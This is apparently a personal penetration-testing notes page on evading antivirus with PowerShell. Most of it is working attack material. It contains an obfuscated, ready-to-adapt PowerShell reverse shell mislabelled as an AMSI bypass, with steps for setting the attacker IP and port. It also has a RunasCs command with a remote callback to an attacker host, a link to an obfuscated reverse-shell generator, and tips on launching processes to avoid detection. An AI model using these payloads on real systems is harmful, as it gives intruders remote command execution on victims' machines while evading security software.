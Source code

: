 ```yaml
---
creation date: April 6th 2023
last modified date: April 6th 2023
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Powershell AV bypasses]]  
___

## Description:  

**Run a process as a different user (with creds)**
[RunasCs](https://github.com/antonioCoco/RunasCs/blob/master/Invoke-RunasCs.ps1)
```
Invoke-RunasCs -Username snovvcrash -Password 'Passw0rd!' -Domain megacorp.local -Command powershell.exe -Remote 10.10.13.37:1337
```


**ASMI bypass**
```
while ($true) {$px = "c0","a8","38","1";$p = ($px | ForEach { [convert]::ToInt32($_,16) }) -join '.';$w = "GET /index.html HTTP/1.1`r`nHost: $p`r`nMozilla/5.0 (Windows NT 10.0; WOW64; rv:56.0) Gecko/20100101 Firefox/56.0`r`nAccept: text/html`r`n`r`n";$s = [System.Text.ASCIIEncoding];[byte[]]$b = 0..65535|%{0};$x = "n-eiorvsxpk5";Set-alias $x ($x[$true-10] + ($x[[byte]("0x" + "FF") - 265]) + $x[[byte]("0x" + "9a") - 158]);$y = New-Object System.Net.Sockets.TCPClient($p,80);$z = $y.GetStream();$d = $s::UTF8.GetBytes($w);$z.Write($d, 0, $d.Length);$t = (n-eiorvsxpk5 whoami) + "$ ";while(($l = $z.Read($b, 0, $b.Length)) -ne 0){;$v = (New-Object -TypeName $s).GetString($b,0, $l);$d = $s::UTF8.GetBytes((n-eiorvsxpk5 $v 2>&1 | Out-String )) + $s::UTF8.GetBytes($t);$z.Write($d, 0, $d.Length);}$y.Close();Start-Sleep -Seconds 5}
```
You have to change your IP address to hex (`$px = "c0","a8","38","1"`add 0 in front if needed) and change your port number (`($p,80)`)

**Obfuscated PowerShell Reverse Shells**
[gh0x0st](https://github.com/gh0x0st/Get-ReverseShell)

**Run a new PowerShell command in background**
```
start-job -scriptblock { C:\TeamCity\buildAgent\work\74c2f03019966b3e\hello_world.ps1 }

Start-Process powershell.exe -ArgumentList "-file C:\TeamCity\buildAgent\work\74c2f03019966b3e\hello_world.ps1"

```
Can sometimes avoid detection by not having your process run a new job as a child



___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: April 6th 2023 (09:32 am)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
